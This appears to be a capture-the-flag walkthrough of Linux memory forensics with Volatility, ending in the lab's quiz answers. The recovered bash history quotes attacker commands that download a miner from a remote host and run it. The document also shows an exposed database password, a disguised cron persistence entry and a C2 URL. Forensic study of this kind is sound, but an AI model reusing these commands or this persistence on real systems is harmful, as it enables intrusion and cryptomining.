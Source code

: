 # Tooling: Volatility

Add Ubuntu profile
```bash
cd ~/Desktop/Evidence
cp Ubuntu_5.4.0-163-generic_profile.zip ~/.local/lib/python2.7/site-packages/volatility/plugins/overlays/linux/
```

Read .bash_history
```bash
vol.py -f linux.mem --profile="LinuxUbuntu_5_4_0-163-generic_profilex64" linux_bash
```
Pid      Name                 Command Time                   Command
-------- -------------------- ------------------------------ -------
    8092 bash                 2023-10-02 18:13:46 UTC+0000   sudo su
    8092 bash                 2023-10-02 18:15:44 UTC+0000   git clone https://github.com/504ensicsLabs/LiME && cd LiME/src/
    8092 bash                 2023-10-02 18:15:53 UTC+0000   ls
    8092 bash                 2023-10-02 18:15:55 UTC+0000   make
    8092 bash                 2023-10-02 18:16:16 UTC+0000   vi ~/.bash_history 
    8092 bash                 2023-10-02 18:16:38 UTC+0000    
    8092 bash                 2023-10-02 18:16:38 UTC+0000   ls -la /home/elfie/
    8092 bash                 2023-10-02 18:16:42 UTC+0000   sudo su
    8092 bash                 2023-10-02 18:18:38 UTC+0000   ls -la /home/elfie/
    8092 bash                 2023-10-02 18:18:41 UTC+0000   vi ~/.bash_history 
   10205 bash                 2023-10-02 18:19:58 UTC+0000   mysql -u root -p'NEhX4VSrN7sV'
   10205 bash                 2023-10-02 18:19:58 UTC+0000   id
   10205 bash                 2023-10-02 18:19:58 UTC+0000   curl http://10.0.2.64/toy_miner -o miner
   10205 bash                 2023-10-02 18:19:58 UTC+0000   ./miner
   10205 bash                 2023-10-02 18:19:58 UTC+0000   cat /home/elfie/.bash_history
   10205 bash                 2023-10-02 18:20:03 UTC+0000   vi .bash_history 
   10205 bash                 2023-10-02 18:21:21 UTC+0000   cd LiME/src/

Read pslist
```bash
vol.py -f linux.mem --profile="LinuxUbuntu_5_4_0-163-generic_profilex64" linux_pslist
```
0xffff9ce9b1e4c680 miner                10280           1               1000            1000   0x0000000074fa2000 2023-10-02 18:22:37 UTC+0000
0xffff9ce9bc23af00 mysqlserver          10291           1               1000            1000   0x000000006f166000 2023-10-02 18:22:37 UTC+0000
PIDs: mysqlserver: 10291, miner: 10280

Extract processes
```bash
mkdir extracted
vol.py -f linux.mem --profile="LinuxUbuntu_5_4_0-163-generic_profilex64" linux_procdump -p 10280 -D extracted
vol.py -f linux.mem --profile="LinuxUbuntu_5_4_0-163-generic_profilex64" linux_procdump -p 10291 -D extracted
```
Get MD5 hashes
```bash
md5sum extracted/miner.10280.0x400000
md5sum extracted/mysqlserver.10291.0x400000
```
153a5c8efe4aa3be240e5dc645480dee  extracted/miner.10280.0x400000
c586e774bb2aa17819d7faae18dad7d1  extracted/mysqlserver.10291.0x400000

Extract files
```bash
vol.py -f linux.mem --profile="LinuxUbuntu_5_4_0-163-generic_profilex64" linux_enumerate_files | grep -i cron
```
0xffff9ce9b78280e8                    132687 /var/spool/cron/crontabs/elfie

```bash
vol.py -f linux.mem --profile="LinuxUbuntu_5_4_0-163-generic_profilex64" linux_find_file -i 0xffff9ce9b78280e8 -O elfie
cat elfie
```
```
# DO NOT EDIT THIS FILE - edit the master and reinstall.
# (- installed on Mon Oct  2 18:22:12 2023)
# (Cron version -- $Id: crontab.c,v 2.13 1994/01/17 03:20:37 vixie Exp $)
*/8 * * * * /var/tmp/.system-python3.8-Updates/mysqlserver
```

# What is the exposed password that we find from the bash history output?
NEhX4VSrN7sV

# What is the PID of the miner process that we find?
10280

# What is the MD5 hash of the miner process?
153a5c8efe4aa3be240e5dc645480dee

# What is the MD5 hash of the mysqlserver process?
c586e774bb2aa17819d7faae18dad7d1

# Use the command strings extracted/miner.<PID from question 2>.0x400000 | grep http://. What is the suspicious URL? (Fully defang the URL using CyberChef)
`strings extracted/miner.10280.0x400000 | grep http://`
http://mcgreedysecretc2.thm
defanged: 
hxxp[://]mcgreedysecretc2[.]thm

# After reading the elfie file, what location is the mysqlserver process dropped in on the file system?
/var/tmp/.system-python3.8-Updates/mysqlserver
